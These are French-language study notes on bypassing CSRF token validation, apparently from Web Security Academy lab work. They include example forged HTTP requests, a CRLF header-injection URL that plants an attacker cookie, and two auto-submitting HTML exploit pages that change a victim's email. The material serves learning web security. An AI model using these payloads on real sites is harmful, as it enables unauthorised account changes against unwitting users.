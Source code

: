 
Un jeton CSRF est une valeur unique, secrète et imprévisible, générée par l'application côté serveur et partagée avec le client. Lorsqu'il émet une requête pour effectuer une action sensible, comme l'envoi d'un formulaire, le client doit inclure le jeton CSRF correct. Dans le cas contraire, le serveur refusera l'action demandée.

> Correctement implémentés, les jetons CSRF protègent contre les attaques CSRF en empêchant un attaquant de créer une requête valide pour le compte de la victime. Comme l'attaquant n'a aucun moyen de prédire la valeur correcte du jeton CSRF, il ne pourra pas l'inclure dans la requête malveillante.

Les vulnérabilités CSRF surviennent généralement en raison d'une validation défectueuse des jetons CSRF
## Validation of CSRF token depends on request method

(La validation du jeton CSRF dépend de la méthode de demande)

Certaines applications valident correctement le jeton lorsque la requête utilise la méthode POST, mais ignorent la validation lorsque la méthode GET est utilisée.

> Dans cette situation, l'attaquant peut passer à la méthode GET pour contourner la validation et lancer une attaque CSRF

> Si l’app vérifie le token **seulement** pour POST, un attaquant peut forcer une requête **GET** pour exécuter une action sans token.

```http
GET /email/change?email=pwned@evil-user.net 
HTTP/1.1 Host: vulnerable-website.com 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```


## Validation of CSRF token depends on token being present

(La validation du jeton CSRF dépend de la présence du jeton)

Certaines applications valident correctement le jeton lorsqu'il est présent, mais ignorent la validation si le jeton est omis.

> Dans cette situation, l'attaquant peut supprimer l'intégralité du paramètre contenant le jeton (pas seulement sa valeur) pour contourner la validation et lancer une attaque CSRF

> Si l’app **n’ouvre** la vérification que quand le paramètre token existe, un attaquant peut appeler l’endpoint **sans** ce paramètre (le supprimer) et contourner la protection.

```http
POST /email/change HTTP/1.1 Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```


## CSRF token is not tied to the user session

(Le jeton CSRF n'est pas lié à la session utilisateur)

Certaines applications ne vérifient pas que le jeton appartient à la même session que l'utilisateur à l'origine de la requête. Elles gèrent alors un pool global de jetons qu'elles ont émis et acceptent tout jeton qui y figure.

> Dans cette situation, l'attaquant peut se connecter à l'application en utilisant son propre compte, obtenir un jeton valide, puis transmettre ce jeton à l'utilisateur victime dans son attaque CSRF

> Si le token n’est **pas lié** à la session, un attaquant peut s’authentifier, récupérer un token valide et l’utiliser contre une victime.

> Cela peut arrive que le token n'es utiliser que une seule fois


## CSRF token is tied to a non-session cookie

(Le jeton CSRF est lié à un cookie non-session)

Dans une variante de la vulnérabilité précédente, certaines applications associent le jeton CSRF à un cookie, mais pas à celui utilisé pour le suivi des sessions. Ce problème peut facilement se produire lorsqu'une application utilise deux infrastructures distinctes, l'une pour la gestion des sessions et l'autre pour la protection CSRF, qui ne sont pas intégrées

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Cette situation est plus difficile à exploiter, mais reste vulnérable. **Si le site web présente un comportement permettant à un attaquant d'installer un cookie dans le navigateur de la victime, une attaque est possible.**

> L'attaquant peut se connecter à l'application avec son propre compte, obtenir un jeton valide et le cookie associé, exploiter le comportement d'installation de cookie pour installer son cookie dans le navigateur de la victime et lui transmettre son jeton lors de son attaque CSRF.

##### Explication plus simplet - Le contexte

Le jeton CSRF est censé protéger contre les attaques où un site malveillant force un utilisateur authentifié à effectuer une action.  
**Problème ici :** le token CSRF est stocké dans un **cookie séparé** qui **n’est pas lié à la session**.

Exemple :

```
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv
```

- `session=...` → suivi de la session de l’utilisateur.    
- `csrfKey=...` → token CSRF, mais pas lié à cette session.

> **Conséquence :** le token CSRF peut être valide **même si ce n’est pas le token de l’utilisateur connecté**.

##### Comment un attaquant peut exploiter ça

1. L’attaquant se connecte à l’application avec **son propre compte** → il reçoit **un token CSRF valide** (`csrf`) associé à son cookie (`csrfKey`).

2. Il trouve un moyen d’**installer son cookie `csrfKey`** dans le navigateur de la victime (via un script, un sous-domaine vulnérable, etc...).

```
https://target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

3. Quand la victime visite le site ou clique sur un lien malveillant, le navigateur envoie **le cookie de l’attaquant** + **le token de l’attaquant** → le serveur accepte la requête comme si c’était légitime.

> Résultat : la victime exécute des actions au nom de l’attaquant ou de son propre compte.

```html
<html>
  <body>
    <form action="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dipeuaberthold&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="JcY9IeoWr308wemxpp0q3tAG3DdeKeFY" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=lZDYzsBCRJQnCeuVFAwSQaV3TnefT2jH%3b%20SameSite=None" onerror="document.forms[0].submit()">

  </body>
</html>
```

##### Conclusion

- Même si le token existe et semble “valide”, **il n’est pas associé à la bonne session**.
- Si un attaquant peut placer son cookie dans le navigateur de la victime, il peut **contourner la protection CSRF**.

## CSRF token is simply duplicated in a cookie

(Le jeton CSRF est simplement dupliqué dans un cookie)

Dans une autre variante de la vulnérabilité précédente, certaines applications ne conservent aucun enregistrement côté serveur des jetons émis, mais dupliquent chaque jeton dans un cookie et un paramètre de requête. Lors de la validation de la requête suivante, l'application vérifie simplement que le jeton soumis dans le paramètre de requête correspond à la valeur soumise dans le cookie.

Cette défense, parfois appelée « double soumission », contre le CSRF est préconisée car elle est simple à mettre en œuvre et évite tout état côté serveur :

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

> Dans ce cas, l'attaquant peut à nouveau lancer une attaque CSRF si **le site web propose une fonctionnalité de paramétrage des cookies**. 
> 
> Dans ce cas, l'attaquant n'a pas besoin d'obtenir son propre jeton valide. Il lui suffit d'inventer un jeton (éventuellement au format requis, si celui-ci est vérifié), d'exploiter le comportement de paramétrage des cookies pour placer son cookie dans le navigateur de la victime et de lui transmettre son jeton lors de son attaque CSRF.

```http
<html>
  <body>
    <form action="https://0a2b009b043071d5811e673100630035.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@pwned.pwned" />
      <input type="hidden" name="csrf" value="2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a2b009b043071d5811e673100630035.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

